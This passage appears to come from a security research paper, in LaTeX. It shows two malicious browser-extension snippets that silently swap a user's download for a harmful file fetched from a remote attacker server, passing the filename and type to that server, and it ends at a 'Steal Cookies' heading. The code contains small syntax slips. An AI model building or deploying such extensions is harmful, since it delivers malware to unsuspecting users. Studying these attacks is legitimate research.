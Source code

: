 	\begin{code}
		\begin{lstlisting}
chrome.downloads.onCreated.addListener(function (downloadItem) {
	if(downloadItem.mime === TARGETED_MIME_TYPE) {
		chrome.downloads.cancel(downloadItem.id);
		chrome.downloads.erase({ id: downloadItem.id });
		chrome.downloads.download({
			url: REMOTE_SERVER_URL + '?filename=' downloadItem.filename + '&mime_type=' + downloadItem.mime,
			method: 'GET',
		});
	}
});
\end{lstlisting}	
		\caption{Extension code to silently exchange a file that the user currently downloads.}	
		\label{code:exchangeDownloadFile}
	\end{code}
	
	We implemented a similar approach that removes the downloaded file as soon as the download has finished and initiates a second download of a harmful file with the same name and mime-type as the original one. In our implementation shown in \autoref{code:exchangeDownloadFile} we listen for the user initiating a new download (line 1), check for a particular mime type of the downloading file (line 2), and wait until the download has finished (line 3). To generate a fake file at our remote server, we extract the name of the downloaded file from its full path on the user operating system (line 4). We remove the downloaded file (lines 5-7) and download a harmful fake file (line 8-10). Again, we forward the name and mime type of the downloaded file to our remote server (line 9).
	
	\begin{code}
		\begin{lstlisting}
chrome.downloads.onCreated.addListener(function (downloadItem) {
	if(downloadItem.mime === TARGETED_MIME_TYPE) {
		waitUntilDownloadHasFinished(function() {
			var filename = downloadItem.filename.split('\x5c').pop();			
			chrome.downloads.removeFile(downloadItem.id, function() {
				chrome.downloads.erase({ id: downloadItem.id });
			});
			chrome.downloads.download({
				url: REMOTE_SERVER_URL + '?filename=' downloadItem.filename + '&mime_type=' + downloadItem.mime,
				method: 'GET',
			});	
		});
	}
});
\end{lstlisting}
		\caption{Extension code to silently exchange a file after the user has downloaded it.}
		\label{code:exchangeDownloadedFile}
	\end{code}



\subsection{Steal Cookies}

